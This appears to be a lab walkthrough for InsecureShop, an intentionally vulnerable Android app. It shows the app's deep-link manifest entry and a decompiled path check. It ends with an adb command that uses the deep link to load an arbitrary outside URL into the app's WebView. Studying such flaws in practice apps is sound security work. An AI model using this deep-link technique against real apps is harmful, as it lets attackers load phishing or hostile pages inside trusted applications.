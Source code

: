 Checking manifest revealed the following content.
```xml
<activity android:name=".WebViewActivity">
    <intent-filter>
        <action android:name="android.intent.action.VIEW" />
        <category android:name="android.intent.category.DEFAULT" />
        <category android:name="android.intent.category.BROWSABLE" />

        <data
            android:host="com.insecureshop"
            android:scheme="insecureshop" />
    </intent-filter>
</activity>
```


In `com.insecureshop.WebViewActivity`, we can see hpw the urls which are sent via deep links are getting handled.

```java
if (!StringsKt.equals$default(uri.getPath(), "/web", false, 2, null)) {
  ....
}
```

There is a check to validate that the URI path is equal to /web and after that the parameter url is being extracted from an intent to a parameter named data which later is being loaded in a webview. This is really interesting as we can construct such a URI and pass an arbitrary parameter as a url. We are going to do that by using adb.
The following command does that.
`adb shell am start -W -a android.intent.action.VIEW -d "insecureshop://com.insecureshop/web?url=https://yasuu.free.nf"`


